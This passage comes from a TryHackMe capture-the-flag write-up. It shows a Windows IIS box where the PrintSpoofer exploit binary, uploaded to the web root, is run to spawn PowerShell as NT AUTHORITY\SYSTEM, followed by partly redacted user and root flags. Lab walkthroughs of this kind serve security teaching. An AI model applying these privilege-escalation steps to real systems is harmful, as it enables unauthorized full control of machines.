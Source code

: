 ```python
dir /s c:\PrintSpoofer64.exe
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

 02/06/2022  01:31 PM         27,136 PrintSpoofer64.exe
            1 File(s)        27,136 bytes

 Total Files Listed:
            1 File(s)        27,136 bytes
            0 Dir(s)         21,118,365,696 bytes free
```

It was uploaded to "c:\inetpub\wwwroot\nt4wrksv", so I'll navigate there.

Let's run "PrintSpoofer64.exe" with the "-i" and "-c" flags, which state that we want an interactive process with the command we execute, "powershell".

![](https://user-images.githubusercontent.com/85040841/152704074-7da2691f-ae1d-4068-89c7-dc8adf064ba1.png)

And just like that, we're now NT AUTHORITY\SYSTEM.

### User and Root Flags:

```python
Directory: C:\Users\Bob

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/25/2020   2:04 PM                Desktop

cd Desktop
type user.txt
THM{fdk*******************f45}
PS C:\Users\Bob\Desktop>
```

```python
Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/25/2020   7:58 AM                Contacts
d-r---        7/25/2020   8:24 AM                Desktop
d-r---        7/25/2020   7:58 AM                Documents
d-r---        7/25/2020   8:39 AM                Downloads
d-r---        7/25/2020   7:58 AM                Favorites
d-r---        7/25/2020   7:58 AM                Links
d-r---        7/25/2020   7:58 AM                Music
d-r---        7/25/2020   7:58 AM                Pictures
d-r---        7/25/2020   7:58 AM                Saved Games
d-r---        7/25/2020   7:58 AM                Searches
d-r---        7/25/2020   7:58 AM                Videos
cd Desktop
type root.txt
THM{1fk*******************5pv}
PS C:\Users\Administrator\Desktop>
```
